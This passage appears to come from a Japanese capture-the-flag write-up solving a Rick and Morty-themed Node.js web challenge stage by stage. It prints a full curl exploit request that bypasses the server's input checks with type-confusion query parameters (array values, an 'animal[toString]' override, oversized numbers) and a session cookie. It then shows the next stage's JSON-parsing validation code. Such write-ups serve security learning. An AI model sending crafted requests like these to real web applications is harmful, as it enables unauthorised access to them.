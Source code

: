 ```javascript
  }
}
else {
  res.end("Again Morty, touching things that I always say don't touch.");
}
```

`st` と `ar` のいずれも配列であるかどうかは確認されていませんから、`bridge` と同様に配列にすればよさそうです。

`sess.AccessGranted === true` とセッションの `AccessGranted` プロパティのチェックがされていますが、これは `/secretplace` で既に `true` にできています。

```
$ curl -X POST -g -b 'connect.sid=s%3AdkXke1cyGCAC1eNuBxxgYUDYaLXXBXM3.jhR1fQpcYUKzWOv0UETajIYP2TCEowbbZBsXQ1Lxvow' 'http://(省略)/?worldoor=/home/ctf/rickstufF&teleport=13333333333333333333&bridge[]=d0wnth3r3&neworld=7777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777
77777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777&lord=a&rord=ricksundefined&worldname=9999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999&component=999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999&animal[toString]=0&weired=1e-3&st[]=1&st[]=3&ar[]=3&ar[]=7'
Wait Morty where's my thing?
```

### fastfood
```javascript
let fastfood = req.query.fastfood;
if (!Array.isArray(fastfood) && (typeof fastfood) !== "object") {
  try {
    let in_food = JSON.parse(fastfood);
    if (!("food" in in_food)) {
      let order = Object.assign({}, in_food);
      if (order.food === "Makloub") {
        // …
      }
      else {
        res.end("Does that seem like a Makloub for you?");
      }
    }
    else {
      res.end("We don't do that here Morty.");
    }
  }
  catch (e) {
    res.end("That doesn't seem like a food even.");
  }
}
else {
  res.end("Come on Morty it only accepts strings.");
}
```
